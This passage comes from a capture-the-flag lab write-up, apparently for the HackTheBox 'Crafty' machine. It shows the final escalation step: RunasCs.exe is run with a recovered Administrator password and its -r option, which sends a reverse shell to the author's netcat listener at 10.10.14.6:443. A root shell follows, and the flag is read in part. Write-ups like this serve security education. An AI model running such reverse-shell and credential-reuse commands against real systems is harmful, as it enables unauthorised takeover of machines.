 `RunasCs` has a `-r` option that takes an IP and port to connect stdin, stdout, and stderr of the resulting process to, which works very much like a reverse shell. With `nc` listening on TCP 443, I’ll run it:

```

PS C:\programdata> .\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.6:443
[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: WinSta0\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 3436 created in background.

```

At my listening `nc`, there’s a shell as Administrator:

```

oxdf@hacky$ rlwrap -cAr nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.249 49721
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
crafty\administrator

```

I’ll switch to PowerShell:

```

C:\Windows\system32> powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> 

```

And grab the flag:

```

PS C:\users\administrator\desktop> cat root.txt
eab1ae65************************

```

## Beyond Root

### Webserver Background

I noted above that there was interesting behavior around the `index.html` file on the webserver. Visiting that resulted in a redirect to `/home` Visiting other files that didn’t exist returned an IIS 404.
